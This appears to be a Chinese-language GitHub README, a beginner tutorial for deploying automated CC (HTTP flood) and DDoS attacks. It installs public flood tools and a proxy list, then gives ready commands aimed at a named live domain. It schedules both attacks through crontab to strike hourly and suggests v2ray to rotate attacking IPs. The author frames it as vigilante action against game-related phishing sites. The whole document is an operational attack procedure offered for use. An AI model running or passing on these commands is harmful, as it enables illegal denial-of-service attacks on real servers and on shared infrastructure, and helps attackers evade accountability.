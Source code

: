 # Nyaa:Automata ![](https://img.shields.io/github/stars/NyaaCaster/HydaelynAttack?style=social)
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
    apt update -y
    apt install git vim zip python3 python3-pip -y
    wget https://nyaacaster.github.io/FisherHunter/overload_py/requirements.txt
    pip3 install -r requirements.txt

## 安装CC-attack

    git clone https://github.com/Leeon123/CC-attack.git

## 获取Proxy-List的socks4喂料包
    curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/socks4.txt" > socks4.txt

## 安装overload（ddos工具）
    git clone https://github.com/7zx/overload.git
    cd overload/
    wget https://nyaacaster.github.io/FisherHunter/overload_py/overload_p.py
    cd ..

- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整


## 如果要单独一次性执行cc
    python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30

- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行ddos
    python3 ~/overload/overload_p.py

- 自己修改建立了新脚本后执行自己的就可以


## 部署订制执行计划
    crontab -e

- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
    0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
    30 * * * * python3 ~/overload/overload_p.py

- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0和30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
